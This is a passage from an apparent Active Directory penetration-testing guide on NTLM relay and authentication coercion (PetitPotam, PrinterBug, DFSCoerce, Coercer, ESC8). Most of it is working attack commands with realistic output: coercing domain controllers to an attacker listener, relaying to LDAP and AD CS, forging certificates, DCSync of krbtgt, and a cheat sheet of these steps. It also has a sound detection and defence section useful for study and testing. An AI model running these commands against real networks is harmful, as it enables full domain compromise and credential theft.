| Primitive | Tool(s) | Interface (MS-) | Named pipe | Auth context | Notes |
|-----------|---------|-----------------|------------|--------------|-------|
| **PetitPotam** | `PetitPotam.py`, Coercer | MS-EFSRPC | `\pipe\lsarpc`, `\pipe\efsrpc` | Machine account | Originally worked **unauthenticated** against unpatched DCs; post-patch needs a low-priv domain account |
| **PrinterBug** | `printerbug.py`, SpoolSample | MS-RPRN | `\pipe\spoolss` | Machine account | Needs Print Spooler running; `RpcRemoteFindFirstPrinterChangeNotificationEx` |
| **DFSCoerce** | `dfscoerce.py`, Coercer | MS-DFSNM | `\pipe\netdfs` | Machine account | Targets `NetrDfsAddStdRoot`/`NetrDfsRemoveStdRoot`; DFS service present on DCs |
| **ShadowCoerce** | `shadowcoerce.py`, Coercer | MS-FSRVP | `\pipe\FssagentRpc` | Machine account | VSS-for-shares; requires the File Server VSS Agent feature |

### PetitPotam (MS-EFSRPC) — from scratch

**What it is.** MS-EFSRPC is the Encrypting File System Remote Protocol, used to manage EFS-encrypted files on remote machines. Several of its methods — most famously `EfsRpcOpenFileRaw`, and also `EfsRpcEncryptFileSrv`, `EfsRpcDecryptFileSrv`, `EfsRpcQueryUsersOnFile` — take a **FileName** parameter. Topotam discovered (CVE-2021-36942) that passing a UNC path makes the target authenticate to it. The original bug was reachable *unauthenticated* over the `lsarpc`/`efsrpc` pipes against Domain Controllers, which is what made PetitPotam headline news: no credentials, coerce a DC, relay to AD CS, own the domain.

**Install.** `git clone https://github.com/topotam/PetitPotam` (Python `PetitPotam.py`), or use Impacket/Coercer implementations.

**Usage** — coerce `DC01` to authenticate to the attacker `ATTACKER` (10.10.20.99):

```bash
# Post-patch: supply a low-priv domain credential. -pipe efsr tries the efsrpc pipe.
python3 PetitPotam.py -u lowpriv -p 'Password1' -d corp.local \
    10.10.20.99 10.10.20.10
#                 ^listener(attacker)  ^target(DC01)
```

Realistic output:

```
              ___            _        _      _        ___            _
Trying pipe lsarpc
[-] Connecting to ncacn_np:10.10.20.10[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

`ERROR_BAD_NETPATH` is *success*: the DC tried to reach `\\10.10.20.99\share`, failed to find the path (that's fine), but not before authenticating. On your ntlmrelayx you'll see `DC01$` land.

### PrinterBug / SpoolSample (MS-RPRN) — from scratch

**What it is.** MS-RPRN is the Print System Remote Protocol. The method `RpcRemoteFindFirstPrinterChangeNotificationEx` was designed so a print server can notify a client of print-queue changes — it takes a UNC path for where to send notifications. Point it at the attacker and the print server (any host with the **Print Spooler** service running, which historically included every DC by default) authenticates to you. Disclosed by Lee Christensen as the "PrinterBug."

**Install.** `printerbug.py` ships with Impacket; the C# original is `SpoolSample.exe`.

```bash
# Impacket: creds@target  attacker-listener
printerbug.py corp.local/lowpriv:'Password1'@10.10.20.10 10.10.20.99
```

```
[*] Impacket v0.11 - Copyright Fortra, LLC
[*] Attempting to trigger authentication via rprn RPC at 10.10.20.10
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Triggered RPC backconnect, this may or may not have worked
```

Even a `0x5` access-denied on the *notification* call is often enough — the authentication back-connect fires first. Mitigation is simply disabling the Print Spooler on servers that don't print (which PrintNightmare made everyone finally do), so PrinterBug is less reliable on hardened DCs — hence keeping EFSRPC and DFS in your kit.

### DFSCoerce (MS-DFSNM) and ShadowCoerce (MS-FSRVP)

**DFSCoerce** abuses the Distributed File System Namespace Management protocol. `NetrDfsAddStdRoot` / `NetrDfsRemoveStdRoot` take a server name that the DC's DFS service will contact. The DFS service (`Netdfs` pipe) is present on Domain Controllers by default and is *not* the Print Spooler, so DFSCoerce frequently works where PrinterBug has been mitigated.

```bash
python3 dfscoerce.py -u lowpriv -p 'Password1' -d corp.local 10.10.20.99 10.10.20.10
#                                                             ^listener   ^DC
```

**ShadowCoerce** abuses MS-FSRVP (File Server Remote VSS Protocol), methods `IsPathSupported` / `IsPathShadowCopied`. It requires the File Server VSS Agent Service, so it is more situational, but it slipped past early PetitPotam patches and is worth trying when the obvious primitives are patched.

### Coercer — automate all of them

Chasing one primitive at a time is slow. **Coercer** (by p0dalirius) is a framework that enumerates *every* known coercion method across *every* vulnerable RPC interface against a target and fires them, reporting which ones triggered a back-connect. It is the "spray all coercion vectors" tool.

**Install.** `pipx install coercer` or `git clone https://github.com/p0dalirius/Coercer`.

```bash
# coerce mode: try every method; -l is the attacker listener, -t the victim
coercer coerce -u lowpriv -p 'Password1' -d corp.local \
    -l 10.10.20.99 -t 10.10.20.10 -v
```

```
[+] Starting coerce mode
[+] Scanning target 10.10.20.10
   [+] Analyzing available protocols on the remote machine and perform RPC calls to coerce authentication...
      [+] MS-EFSR------: 'EfsRpcOpenFileRaw'      (opnum 0)  [pipe:\efsrpc]  : (¬‿¬) SMB auth received!
      [+] MS-EFSR------: 'EfsRpcEncryptFileSrv'   (opnum 4)  [pipe:\lsarpc]  : (¬‿¬) SMB auth received!
      [+] MS-DFSNM-----: 'NetrDfsAddStdRoot'      (opnum 12) [pipe:\netdfs]  : (¬‿¬) SMB auth received!
      [-] MS-RPRN------: 'RpcRemoteFindFirst...'  (opnum 65) [pipe:\spoolss] : Spooler unavailable
[+] All done!
```

That output is a coercion map: three live vectors, one dead (spooler off). You only need one to relay. Coercer also has a `scan` mode (identify vulnerable methods without triggering) and a `fuzz` mode.

**Web/HTTP coercion (WebDAV).** A subtle but powerful variant: if the victim has the **WebClient** service running (common on workstations), some coercion methods can be made to authenticate over **HTTP** rather than SMB by using a WebDAV-style listener name (e.g. `@80/path` or a `mrxsmb`/WebDAV UNC). HTTP auth is gold because it is trivially relayed to AD CS web enrollment (Part 8) with no SMB-signing concerns. Tools like `PetitPotam` with a WebDAV target, or forcing WebClient via a search-connector/`.library-ms` file, enable this. Check WebClient presence with `webclientservicescanner corp.local/lowpriv:pass@target` or `GetWebDAVStatus`.

## Part 7: Relay Targets — What You Can Do With a Forwarded Auth

You have the auth. Where you point it decides what you get. This part catalogues the high-value relay targets and the ntlmrelayx attack module for each.

### SMB → SMB: shells, secrets, and SOCKS

Relay to a host where the relayed identity is a **local administrator** and SMB signing is not required. Attack options:

- **Dump SAM/LSA secrets** (default `--dump-sam` style behaviour) — local hashes for lateral movement and to find password reuse.
- **Execute a command** with `-c 'powershell -enc ...'` — instant code execution as the relayed user.
- **SOCKS proxy** with `-socks` — hold every relayed session open and reuse them through `proxychains` with any Impacket tool.

```bash
sudo ntlmrelayx.py -tf relayable_smb.txt -smb2support -socks
# later, in the ntlmrelayx socks prompt:
ntlmrelayx> socks
Protocol  Target         Username        AdminStatus  Port
SMB       10.10.20.30    CORP/JSMITH     TRUE         445
# then:
proxychains secretsdump.py CORP/JSMITH@10.10.20.30 -no-pass
```

The `AdminStatus TRUE` column tells you which relayed sessions are local admin on the target — those are the ones worth using.

### SMB → LDAP / LDAPS: RBCD, Shadow Credentials, ACL escalation

This is where relaying a **machine account** shines, because a computer can modify its own attributes and (depending on ACLs) other objects. With LDAP signing off (389) or channel binding off (636), forward a coerced machine auth to LDAP and:

- **`--delegate-access` (RBCD):** ntlmrelayx creates or uses an attacker-controlled computer account and writes `msDS-AllowedToActOnBehalfOfOtherIdentity` on the *relayed* machine, so your computer can request Kerberos tickets impersonating any user *to that relayed machine* — including its `SYSTEM`. Combined with coercing a specific server, this yields a SYSTEM shell on it (see Chapter 8 for RBCD mechanics).
- **`--shadow-credentials`:** ntlmrelayx writes a Key Credential (`msDS-KeyCredentialLink`) onto the relayed object, giving you a certificate/key you can use for **PKINIT** to obtain a TGT as that object — no password reset, quieter than RBCD (see Chapter 8's shadow-credentials note and Certipy usage).
- **`--escalate-user <you>`:** if the relayed principal can write the domain object's DACL, grant yourself `DS-Replication-Get-Changes*` for DCSync (Chapter 9). Rare for a plain machine account, common if you relay a privileged user.

```bash
# Coerce SERVER01$, relay to a DC's LDAP, configure RBCD for our computer EVILPC$
sudo ntlmrelayx.py -t ldap://dc01.corp.local --delegate-access \
    --no-smb-server -smb2support
# (in another shell) coerce SERVER01 to auth to us:
python3 dfscoerce.py -u lowpriv -p 'Password1' -d corp.local ATTACKER_IP SERVER01_IP
```

ntlmrelayx output on success:

```
[*] Authenticating against ldap://dc01.corp.local as CORP/SERVER01$ SUCCEED
[*] Attempting to create a new computer account
[*] Adding new computer with username: EVILPC$ and password: <random> result: OK
[*] Delegation rights modified successfully!
[*] EVILPC$ can now impersonate users on SERVER01$ via S4U2Proxy
```

Then, per Chapter 8: `getST.py -spn cifs/server01.corp.local -impersonate Administrator ... ` and `psexec.py -k -no-pass` for SYSTEM.

### HTTP → AD CS (ESC8): the flagship

The highest-impact relay target in a default AD CS deployment is the **Certificate Authority Web Enrollment** endpoint (`http://<ca>/certsrv/`). It accepts NTLM auth and, historically, does **not** enforce EPA. Relay a **Domain Controller machine account** there, request a certificate, and you hold a credential that authenticates as the DC — which you turn into a TGT via PKINIT and then DCSync the whole domain. This is **ESC8**, and it is the centrepiece of the next part.

The reason HTTP is the ideal transport: SMB signing is irrelevant (it's HTTP), and if EPA is off there's nothing binding the auth to the channel. Combined with WebDAV coercion (Part 6) you get a DC to authenticate over HTTP straight into the CA.

## Part 8: ESC8 Deep Dive — Coerce → Relay → Certificate → PKINIT → DCSync

This is the single most important chain in the chapter. We build it end to end conceptually here, then run it fully in the Part 12 lab.

**Prerequisites in the target environment (all common in defaults):**

1. AD CS installed with the **Web Enrollment** role (`certsrv` HTTP endpoint reachable).
2. A certificate template that permits **client authentication** and enrollment by machines — the built-in `Machine`/`Computer` template is enrolled by *Domain Computers* by default and allows client auth.
3. EPA not enforced on the `certsrv` HTTP endpoint (the historical default).
4. A coercion primitive that reaches the DC (PetitPotam/DFSCoerce/PrinterBug).

**The chain:**



**Step 1 — start the relay pointed at AD CS.** The `--adcs` module tells ntlmrelayx to walk the certsrv web-enrollment flow; `--template Machine` picks a machine client-auth template:

```bash
sudo ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp \
    -smb2support --adcs --template Machine
```

**Step 2 — coerce the DC to authenticate.** Point PetitPotam's listener at the attacker box (where ntlmrelayx listens) and the target at the DC:

```bash
python3 PetitPotam.py -u lowpriv -p 'Password1' -d corp.local ATTACKER_IP DC01_IP
```

**Step 3 — ntlmrelayx captures the DC auth, relays to the CA, and prints a base64 PFX / certificate:**

```
[*] SMBD-Thread-5: Received connection from 10.10.20.10 (DC01)
[*] Authenticating against http://ca01.corp.local/certsrv as CORP/DC01$ SUCCEED
[*] GOT CERTIFICATE! ID 42
[*] Base64 certificate of user DC01$:
MIIRXQIBAzCCES...<snip>...ADAeBgk=
```

**Step 4 — use the certificate for PKINIT to get a TGT as `DC01$`.** With Impacket's `gettgtpkinit.py` or Rubeus:

```bash
# Save the base64 PFX to dc01.pfx, then:
gettgtpkinit.py -cert-pfx dc01.pfx -pfx-pass '' corp.local/DC01\$ dc01.ccache
export KRB5CCNAME=dc01.ccache
```

Or in one step with **Certipy** (which automates the whole thing):

```bash
certipy relay -target http://ca01.corp.local -template Machine
# ...coerce...  then:
certipy auth -pfx dc01.pfx -dc-ip 10.10.20.10
```

`certipy auth` output:

```
[*] Using principal: dc01$@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@corp.local': aad3b...:8846f7eaee8fb117ad06bdd830b7586c
```

**Step 5 — DCSync with the DC's identity.** A Domain Controller account holds replication rights, so its TGT lets you replicate secrets:

```bash
export KRB5CCNAME=dc01.ccache
secretsdump.py -k -no-pass corp.local/DC01\$@dc01.corp.local -just-dc-user krbtgt
```

```
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404ee...:1a59bd44fef...:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:5f8c...
```

You now hold the **krbtgt** hash → **Golden Tickets** (Chapter 6) → permanent domain dominance. That entire chain started from a *single low-priv domain account* (or, against unpatched DCs, from *no account at all*), one coercion call, and one relay. That is why ESC8 + PetitPotam is the defining AD attack of its era.

**Why a DC and not just any machine?** Any machine cert lets you authenticate as that machine, but a DC's machine account is a member of privileged replication-capable context, so its cert → TGT → DCSync. Relaying a non-DC machine to AD CS still gives you that machine's identity (useful for RBCD/lateral moves), but the DC is the jackpot.

## Part 9: Advanced Relay Techniques and Edge Cases

Once the core chain is solid, these variations widen your options when defaults get in the way.

### mitm6 — IPv6 DNS takeover into relay

Every modern Windows host prefers IPv6 and, by default, has **no** IPv6 DNS server, so it periodically broadcasts DHCPv6 solicitations. **mitm6** (by Fox-IT/Dirk-jan Mollema) answers them, assigning itself as the victim's IPv6 DNS server. Now the attacker resolves names — including **WPAD** — and can hand out an authenticated proxy, harvesting HTTP NTLM auth from every browser and Windows component that does web requests. Chained with ntlmrelayx `-6`, mitm6 is a devastating passive-to-active bridge, especially for relaying to LDAP to create a computer and set RBCD without touching a single coercion RPC.

```bash
# Terminal 1: poison IPv6 DNS for the domain
sudo mitm6 -d corp.local
# Terminal 2: relay the harvested auths to LDAPS, drop a computer + RBCD/ACL
sudo ntlmrelayx.py -6 -t ldaps://dc01.corp.local -wh attacker-wpad --delegate-access
```

### Cross-protocol nuance and anti-reflection

Recall the anti-reflection rule: you can't relay a host to itself over the *same* protocol/service. But the state that prevents reflection is per-service. The historical ESC8 win relied on relaying a DC's SMB/HTTP auth to the CA — often a *different* host, sidestepping reflection entirely. When CA and DC are the same box, EPA and same-host protections matter more; prefer coercing over HTTP/WebDAV to the CA on a *separate* server.

### Kerberos relay (brief)

NTLM is not the only relayable auth. Research (James Forshaw, and later `krbrelayx`/`KrbRelay`) showed **Kerberos can be relayed** in specific conditions where the target SPN can be influenced (e.g. AllowedToAct, or DNS/marshalled-target tricks), because Kerberos service tickets are bound to an SPN, not an IP — and if you can make the victim request a ticket for an SPN you control the target for, you can forward it. It is finickier than NTLM relay and out of scope for the deep dive here, but know that "just use Kerberos" is not a complete relay defence — `krbrelayx.py` exists. The robust fixes remain signing, channel binding, and EPA, plus disabling coercion surfaces.

### Downgrade to NTLMv1 and SMB→HTTP tricks

If a target still speaks NTLMv1 (legacy `LmCompatibilityLevel`), you can set a fixed challenge and crack the response to a full NT hash via crack.sh — turning a relay opportunity into an offline hash recovery. And SMB-coerced auth can sometimes be *nudged* to HTTP by using WebDAV, converting a signing-protected SMB path into a signing-irrelevant HTTP relay to AD CS. These downgrades are why "we require SMB signing" is necessary but not sufficient.

### The MachineAccountQuota lever

Several LDAP relay attacks (`--add-computer`, some RBCD flows) need to create a computer account, which any authenticated user can do up to **MachineAccountQuota** (default **10**). If MAQ is 0, `--add-computer` fails and you must reuse an existing computer you already control (or pivot to `--shadow-credentials`/`--escalate-user`). Always check `Get-ADDomain | select -expand DistinguishedName` then the `ms-DS-MachineAccountQuota` attribute early.

## Part 10: Putting It Together — Choosing the Right Chain

A quick decision aid for engagements, given what you can observe:



The professional habit: enumerate protections *first* (`nxc smb <net>` for signing, check `certipy find` for vulnerable AD CS templates/ESC8, check LDAP signing/CBT event logs), then choose the chain whose defence is absent. Coercion is cheap; wasted relays against a signed target are the beginner mistake.

## Part 11: Detection & Defense Angle

Relay and coercion are, per the authoring style, the one area that earns a consolidated dedicated section — because the blue-team story is rich and the mitigations are decisive. There are two jobs: **eliminate** the attack surface where possible, and **detect** the residue where you can't.

### Eliminate — the controls that actually kill relay

| Control | What it breaks | How to enforce |
|---------|---------------|----------------|
| **Require SMB signing everywhere** | SMB→SMB relay | GPO: *Microsoft network server: Digitally sign communications (always) = Enabled*, and the client equivalent. DCs already require it; extend to members/workstations. |
| **Require LDAP signing** | SMB/HTTP→LDAP (389) relay | GPO *Domain controller: LDAP server signing requirements = Require signing*; registry `LDAPServerIntegrity = 2`. Watch event **2889** first to find non-signing clients. |
| **Enforce LDAP channel binding (CBT)** | Relay to LDAPS (636) | `LdapEnforceChannelBinding = 2` on DCs (per Microsoft 2020 guidance). |
| **Enable EPA on AD CS Web Enrollment / RA** | ESC8 (HTTP→AD CS) | Set the certsrv/CES IIS auth to require EPA (KB5005413); or **disable HTTP enrollment** entirely and use only DCOM/HTTPS with EPA. |
| **Disable coercion surfaces** | The trigger itself | Disable **Print Spooler** on servers that don't print (kills PrinterBug). Block outbound SMB (445/139) from DCs at the host firewall to non-trusted hosts. Apply RPC filters to block MS-EFSRPC/MS-DFSNM from untrusted sources. Restrict/patch PetitPotam (the LSARPC path was restricted; EFSRPC methods still exist — RPC filters are the durable fix). |
| **Restrict NTLM** | The protocol itself | *Network security: Restrict NTLM* GPOs; audit with *Restrict NTLM: Audit NTLM authentication in this domain* before enforcing; move to Kerberos-only where feasible. |
| **Disable WebClient (WebDAV)** on servers | HTTP coercion → AD CS | Removes the WebDAV back-connect vector on hosts that don't need it. |

The single highest-leverage combination in a default forest: **enforce LDAP signing + channel binding, enable EPA on AD CS (or kill HTTP enrollment), require SMB signing on members, and disable Print Spooler on DCs.** That closes SMB→LDAP, ESC8, PrinterBug, and SMB→SMB in one sweep. Coercion may still fire, but with nowhere to relay, it's inert.

### Detect — the events and signals

Coercion + relay leaves a distinctive trail. Key Windows Security event IDs and what they reveal:

| Event ID | Where | What it indicates |
|----------|-------|-------------------|
| **4624 (Logon Type 3)** | Relay target | A network logon — check for a **machine account** logging on from an **IP that is not that machine** (the attacker's box). A `DC01$` logon sourced from a workstation subnet is a screaming relay indicator. |
| **4776** | DC (NTLM validation) | NTLM credential validation — spikes and unusual source workstation names accompany relay/poisoning. |
| **4768 / 4769** | DC (Kerberos) | In ESC8, a TGT request (4768) for a machine using a **certificate** (PKINIT) right after a cert was issued is suspicious. |
| **5145** | File server | Detailed file share access — the coercion back-connect to `\\attacker\share\IPC$` or a bogus path may appear. |
| **4662** | DC | Directory object access — DCSync (post-ESC8) generates `DS-Replication-Get-Changes` access by a non-DC principal. |
| **AD CS: 4886/4887** | CA | Certificate request received (4886) and issued (4887) — a certificate issued to a **machine (esp. a DC) that never legitimately enrolls** is the ESC8 smoking gun. Correlate the request's source with the machine's real IP. |
| **2889** | DC | LDAP client performed an **unsigned** bind — surfaces exactly the relay-style binds you're about to block. |

Behavioural detections that generalise beyond single events:

- **Machine account authenticating from the wrong host.** Baseline where each `*$` account should log on from; alert when `DC01$`/`SERVER01$` authenticates from an unexpected IP. This one rule catches nearly every relay.
- **Coercion RPC honeypots / canaries.** Deploy a **honeypot account or host** and monitor for any coercion attempt; tools like the `Get-SpoolStatus` sweeps or purpose-built canaries flag PetitPotam/PrinterBug probes.
- **Certificate issuance anomalies.** Alert on any certificate issued to a Domain Controller machine account, or on `certsrv` HTTP auth from an internal relay host. `certipy find -vulnerable` (run by defenders) enumerates ESC8-exposed CAs proactively.
- **Sigma coverage.** Community Sigma rules exist for PetitPotam (EFSRPC over lsarpc from anonymous/unexpected), PrinterBug (`RpcRemoteFindFirstPrinterChangeNotification`), and relay-style 4624 machine-account-from-foreign-IP. Deploy them in your SIEM and tune to your machine-account baseline.



The correlation chain above is high-fidelity precisely because each individual event is rare for a machine account: a DC coerced, then a machine-account logon from a foreign IP, then a cert issued to that DC, then a certificate-based TGT, then replication — strung together, that sequence has essentially no benign explanation.

**IR use case.** If you suspect a completed ESC8, the containment order is: revoke the issued certificate(s) and, because a stolen cert survives password resets, **rotate the affected machine's credentials AND treat krbtgt as compromised** — perform the double krbtgt reset (Chapter 6) since DCSync of krbtgt was the likely endgame. Then enforce EPA/signing so it can't recur.

## Part 12: Fully Worked Lab — Coerce a DC into Domain Admin via ESC8

This lab reproduces the flagship chain end to end in a self-contained environment. **Only run this against machines you own.**

### Lab topology

| Host | Role | IP | Notes |
|------|------|----|-------|
| `DC01` | Domain Controller, `corp.local` | 10.10.20.10 | Print Spooler may be off; EFSRPC/DFS reachable |
| `CA01` | AD CS with Web Enrollment role | 10.10.20.20 | `Machine` template allows client auth; EPA off (default) |
| `ATTACKER` | Kali | 10.10.20.99 | Impacket, Certipy, PetitPotam, Coercer, Responder |
| Creds | `corp.local\lowpriv : Password1` | — | A single low-privilege domain account |

Build it by installing Server 2019/2022 as `DC01`, adding the AD CS role on `CA01` with **Certification Authority** + **Certificate Authority Web Enrollment**, leaving defaults. This mirrors countless real deployments.

### Step 0 — recon the attack surface

Confirm the CA is ESC8-vulnerable before spending effort:

```bash
certipy find -u lowpriv@corp.local -p 'Password1' -dc-ip 10.10.20.10 -vulnerable -stdout
```

```
Certificate Authorities
  0
    CA Name  : corp-CA01-CA
    Web Enrollment : Enabled          <-- HTTP endpoint present
    ...
[!] Vulnerabilities
    ESC8 : Web Enrollment is enabled and Request Disposition is Issue.
```

`ESC8` listed → proceed. Also confirm a coercion vector:

```bash
coercer scan -u lowpriv -p 'Password1' -d corp.local -t 10.10.20.10
# expect at least one of MS-EFSR / MS-DFSNM to be listed as available
```

### Step 1 — start the relay to AD CS

On `ATTACKER`, listen and relay to the CA web enrollment, requesting the `Machine` template:

```bash
sudo ntlmrelayx.py -t http://ca01.corp.local/certsrv/certfnsh.asp \
    -smb2support --adcs --template 'Machine'
```

```
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP/HTTPS loaded..
[*] Running in relay mode to single host
[*] Servers started, waiting for connections
```

Leave this running.

### Step 2 — coerce DC01 to authenticate to ATTACKER

In a second terminal, fire PetitPotam (fall back to DFSCoerce if EFSRPC is patched):

```bash
python3 PetitPotam.py -u lowpriv -p 'Password1' -d corp.local 10.10.20.99 10.10.20.10
```

```
[+] Connected!
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

If EFSRPC is blocked:

```bash
python3 dfscoerce.py -u lowpriv -p 'Password1' -d corp.local 10.10.20.99 10.10.20.10
```

### Step 3 — watch the relay issue a certificate for DC01$

Back in the ntlmrelayx terminal:

```
[*] SMBD-Thread-4: Received connection from 10.10.20.10, attacking target http://ca01.corp.local
[*] Authenticating against http://ca01.corp.local as CORP/DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 15
[*] Base64 certificate of user DC01$:
MIIRXQIBAzCCEScGCSqGSIb3DQEHAaCCERgEghEUMIIREDCCB8cGCSqG...<snip>
[*] Writing PKCS#12 certificate to ./DC01$.pfx
[*] Certificate successfully written to file
```

You now hold `DC01$.pfx` — a certificate proving you are the Domain Controller.

### Step 4 — PKINIT: certificate to TGT

```bash
certipy auth -pfx 'DC01$.pfx' -dc-ip 10.10.20.10
```

```
[*] Using principal: dc01$@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@corp.local': aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
```

### Step 5 — DCSync the domain

```bash
export KRB5CCNAME=dc01.ccache
secretsdump.py -k -no-pass corp.local/'DC01$'@dc01.corp.local -just-dc
```

```
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404ee...:2892d26cdf84d7a70e2eb3b9f05c425e:::
krbtgt:502:aad3b435b51404ee...:1a59bd44fef4d5c5ba1c6f5e5a2b9c11:::
corp.local\svc_sql:1104:aad3b435...:...:::
[*] Cleaning up...
```

The `krbtgt` hash is domain game-over: forge a Golden Ticket (Chapter 6) for permanent, stealthy Domain Admin. **The whole chain used one low-privilege account and two commands' worth of coercion.**

### Step 6 — clean up (lab hygiene / engagement notes)

- The issued certificate persists until revoked — note its **request ID** (here 15) for the client to revoke.
- No password was changed and no object was permanently modified except the certificate issuance, so cleanup is mostly documentation. In a report, flag the request ID and recommend revocation plus EPA enablement.

### Lab variations to cement understanding

1. **Enable EPA on CA01's certsrv IIS app** and re-run Step 1–3: the relay now fails at authentication — feel the defence work.
2. **Enforce LDAP signing + channel binding**, then try an SMB→LDAP `--delegate-access` relay of a coerced member server: watch it get rejected.
3. **Require SMB signing on a member server**, add it to `smb_targets.txt`, and confirm `nxc smb` reports `signing:True` and the relay is refused.
4. Swap PetitPotam for **Coercer** in Step 2 and observe it enumerate and fire multiple vectors automatically.

## Part 13: Final Revision / Summary

- **NTLM is three messages** — NEGOTIATE, CHALLENGE, AUTHENTICATE — and the DC verifies the response *blind to which server it was for*. That blindness is why relay works.
- **Net-NTLM responses can't be passed and (v2) can't be reversed** — they can only be cracked offline or **relayed in real time**. Relay makes an otherwise useless captured auth devastating.
- **Relay needs three things:** the victim's auth, the challenge forwarded live, and a target that doesn't require signing/channel-binding/EPA. Every defence attacks one of those three.
- **Coercion beats poisoning** for targeting: RPC methods (MS-EFSRPC/PetitPotam, MS-RPRN/PrinterBug, MS-DFSNM/DFSCoerce, MS-FSRVP/ShadowCoerce) force a chosen high-value machine — especially a **DC** — to authenticate to you. Coercer sprays them all.
- **Target choice = payoff:** SMB→SMB (secretsdump/SOCKS/exec on signing-off members), SMB→LDAP (RBCD, Shadow Credentials, ACL escalation), and the flagship **HTTP→AD CS ESC8** (coerce DC → relay to certsrv → machine cert → PKINIT → DCSync → krbtgt).
- **The defences that actually kill it:** SMB signing required, LDAP signing + channel binding enforced, EPA on AD CS (or disable HTTP enrollment), Print Spooler disabled, RPC filters on coercion interfaces, NTLM restricted.
- **Detection is high-fidelity when correlated:** a machine account (4624 Type 3) logging on from a foreign IP, plus a cert issued to a DC (4886/4887), plus a cert-based TGT (4768) and replication (4662) is a sequence with no benign explanation.

Memory hook: **"Coerce the auth, forward the auth, cash the auth."** Coercion gets it, ntlmrelayx forwards it, the attack module (SAM / RBCD / certificate) cashes it.

## Part 14: Cheat Sheet / Quick Reference

**Enumerate protections first**

```bash
nxc smb 10.10.20.0/24                       # signing:False = relayable via SMB
nxc smb 10.10.20.0/24 --gen-relay-list t.txt
certipy find -u u@corp.local -p pass -dc-ip <DC> -vulnerable -stdout   # ESC8?
coercer scan -u u -p pass -d corp.local -t <DC>                        # coercible?
```

**Poisoning / capture**

```bash
sudo responder -I eth0 -wv                   # capture Net-NTLMv2
hashcat -m 5600 hash.txt rockyou.txt         # crack it
sudo mitm6 -d corp.local                     # IPv6 DNS takeover
```

**Coercion**

```bash
python3 PetitPotam.py -u u -p p -d corp.local <ATTACKER> <TARGET>      # MS-EFSRPC
printerbug.py corp.local/u:p@<TARGET> <ATTACKER>                       # MS-RPRN
python3 dfscoerce.py -u u -p p -d corp.local <ATTACKER> <TARGET>       # MS-DFSNM
python3 shadowcoerce.py -u u -p p -d corp.local <ATTACKER> <TARGET>    # MS-FSRVP
coercer coerce -u u -p p -d corp.local -l <ATTACKER> -t <TARGET>       # all vectors
```

**Relay (ntlmrelayx targets & modules)**

```bash
# SMB -> SMB: dump / exec / socks
ntlmrelayx.py -tf smb_targets.txt -smb2support -socks
ntlmrelayx.py -t smb://10.10.20.30 -smb2support -c 'whoami'
# SMB -> LDAP: RBCD / shadow creds / escalate
ntlmrelayx.py -t ldap://dc01 --delegate-access -smb2support
ntlmrelayx.py -t ldaps://dc01 --shadow-credentials -smb2support
ntlmrelayx.py -t ldap://dc01 --escalate-user youruser -smb2support
# HTTP -> AD CS (ESC8)
ntlmrelayx.py -t http://ca01/certsrv/certfnsh.asp -smb2support --adcs --template Machine
# IPv6 chain
ntlmrelayx.py -6 -t ldaps://dc01 -wh wpad --delegate-access
```

**Cert -> TGT -> DCSync**

```bash
certipy auth -pfx 'DC01$.pfx' -dc-ip 10.10.20.10
export KRB5CCNAME=dc01.ccache
secretsdump.py -k -no-pass corp.local/'DC01$'@dc01.corp.local -just-dc
```

**Key defensive settings**

```
SMB signing required (server+client)                 -> kills SMB relay
LDAPServerIntegrity = 2                               -> kills SMB->LDAP(389)
LdapEnforceChannelBinding = 2                         -> kills relay->LDAPS(636)
EPA on certsrv IIS auth / disable HTTP enrollment     -> kills ESC8
Disable Print Spooler on DCs                          -> kills PrinterBug
RPC filters on MS-EFSRPC / MS-DFSNM                   -> blunts PetitPotam/DFSCoerce
Restrict NTLM (audit then enforce)                    -> reduces attack surface
```

**Common pitfalls**

- Relaying to a target that **requires signing** — wasted coercion. Always `nxc` first.
- Trying to **reflect** an auth back to the same host/service — blocked since MS08-068.
- Leaving Responder's SMB/HTTP **on** in relay mode — it steals the auth before ntlmrelayx sees it. Turn them `Off` in `Responder.conf`.
- Forgetting `-smb2support` — modern Windows victims won't relay without it.
- `--add-computer` failing because **MachineAccountQuota = 0** — reuse a computer you own or switch to `--shadow-credentials`.
- Pointing PKINIT at the wrong realm/case for the machine name — use `DC01$` exactly, escape the `$`.

## Part 15: Practice Labs & Resources

Train each link of the chain on infrastructure built for it:

- **HackTheBox — "Forest," "Sauna," "Return," and especially the AD CS boxes ("Escape," "Certified," "Authority")** exercise coercion, ESC8, and relay-to-cert chains hands-on.
- **HackTheBox Pro Labs "Dante"/"Zephyr"/"RastaLabs"** and the **"Cerberus"/"APTLabs"** style multi-host labs contain relay-to-Domain-Admin paths.
- **TryHackMe — "Attacking Kerberos," "Exploiting Active Directory," "Breaching Active Directory,"** and the AD CS rooms walk PetitPotam/ntlmrelayx/ESC8 with guidance.
- **GOAD (Game of Active Directory)** by Orange Cyberdefense — a free, self-hostable vulnerable AD lab that includes coercion and relay scenarios end to end; the best environment to reproduce this chapter's lab exactly.
- **Certipy's own test guidance** and **The Hacker Recipes (thehacker.recipes)** "NTLM relay," "Forced authentications," and "AD CS" pages — the canonical, tool-accurate references for every command here.
